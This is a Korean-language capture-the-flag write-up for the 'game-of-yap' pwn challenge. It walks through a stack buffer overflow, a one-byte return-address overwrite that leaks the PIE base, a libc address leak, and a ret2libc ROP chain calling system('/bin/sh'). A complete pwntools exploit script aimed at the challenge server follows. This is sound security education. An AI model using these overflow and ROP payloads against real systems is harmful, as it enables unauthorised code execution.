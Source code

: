 # game-of-yap

![image.png](images/image.png)

![image.png](images/image%201.png)

game 함수로부터 호출되는 play 함수에서 Stack Buffer Overflow가 발생한다.

![image.png](images/image%202.png)

main 함수는 game 함수를 두번 호출하므로 Stack Buffer Overflow 또한 두번 발생한다.

![image.png](images/image%203.png)

바이너리 내부엔 로직상 호출되진 않지만 존재하는 yap 함수가 있다.
이 함수는 %p 형식 지정자를 통해 play 함수 주소를 출력해준다.

위 함수를 통해 leak을 수행할 수 있을 것이다.

![image.png](images/image%204.png)

해당 바이너리에는 PIE가 적용되어 있어 Stack Buffer Overflow를 통한 RET 변조에도 제약이 있다.

![image.png](images/image%205.png)

하지만 yap 함수와 play 함수의 반환 주소와의 오프셋은 1바이트 이내이므로 RET에 대한 1byte overwrite를 통해 복귀주소를 yap 함수 주소로 변조하여 간단히 code 주소를 leak하여 code base를 구할 수 있다.

code base를 구했으므로 복귀주소를 main으로 돌려 Stack Buffer Overflow를 얼마든지 일으킬 수 있다.

이제 libc 주소를 구해 system 함수와 binsh 문자열의 주소를 구해야 한다.

![image.png](images/image%206.png)

puts 호출 이전

![image.png](images/image%207.png)

puts 호출 이후

puts 함수 호출 이후 rdi와 rsi 레지스터에 libc 주소가 들어간다.
yap 함수에서 두번째 인자, 즉 rsi 값을 %p 포멧 지정자를 통해 출력할 수 있으니 이를 이용해 
game 함수에서 puts를 호출한 후 yap 함수에서 rsi 값을 출력함으로써 libc 주소를 leak할 수 있다.

또한 main 함수의 주소 또한 구했으므로 두번의 Stack Buffer Overflow 모두 사용한 지금, 다시 main 
함수를 호출함으로써 다시 Stack Buffer Overflow를 일으킬 수 있다.

이를 통해 세번째 Stack Buffer Overflow에서 libc 주소로 구한 system 함수와 `/bin/sh` 문자열로 
`system(”/bin/sh”)` 를 호출해 쉘을 실행시킬 수 있다.

```python
#!/usr/bin/env python3

from pwn import *

# Function Aliases
# sendlineafter
def sla(x, y): return io.sendlineafter(x, y)
# sendafter
def sa(x, y): return io.sendafter(x, y)
# send-line
def sl(x): return io.sendline(x)
# send
def s(x): return io.send(x)

# recv-until
def rvu(x): return io.recvuntil(x)
# recv
def rv(x): return io.recv(x)
# recv-line
def rvl(): return io.recvline()

# log info
def li(x): return log.info(x)
# log success
def ls(x): return log.success(x)
# log failure
def lf(x): return log.failure(x)

# Context Settings
context.log_level = 'debug'
context.arch = 'amd64'
context.terminal = [
    'tmux',
    'new-window',
    '-n', 'DEBUG-exploit'
]

# GDB Settings
start_script = '''
    brva 0x1238
'''
breakpoint = {

}   

for bp in breakpoint:
    fmt = 'b *{}'.format(bp)
    start_script += fmt + '\n'

# Bind Settings
bin_path = "./game-of-yap"
libc_path = "./libc.so.6"
ld_path =  "ld-linux-x86-64.so.2"

e = ELF(bin_path)
libc = ELF(libc_path)
ld = ELF(ld_path)

# IO Settings
server_addr = "yap.chal.cyberjousting.com"
server_port = 1355

if args['GDB']:
    io = gdb.debug(bin_path, gdbscript=start_script)
elif args['REMOTE']:
    io = remote(server_addr, server_port)
else:
    io = process([e.path], stdin=PTY)

# Main Code
def main():

    sa(b"...\n", b"A"*256+b'B'*8+b'\x80')
    code_base = int(io.recvline()[:-1],16)-e.sym['play']
    log.info("CODE BASE : " + hex(code_base))

    gdb.attach(io)
    pause()
    sa(b"...\n", b"A"*256+b'B'*8+p64(code_base+0x1266)+b'B'*8+p64(code_base+0x128a)+b'B'*8+p64(code_base+e.sym['main']))

    rvu(b"!\n")
    libc_base = int(io.recvline()[:-1],16)-0x204643
    log.info("LIBC BASE : " + hex(libc_base))

    system = libc_base + libc.sym['system']
    binsh = libc_base + next(libc.search(b"/bin/sh"))
    pop_rdi = libc_base + 0x000000000010f75b
    ret = pop_rdi+1
    
    payload = b"A"*256+b'B'*8+p64(pop_rdi)+p64(binsh)+p64(system)
    sa(b"...\n", payload)

    io.interactive()

if __name__ == "__main__":
    main()
```

![image.png](images/image%208.png)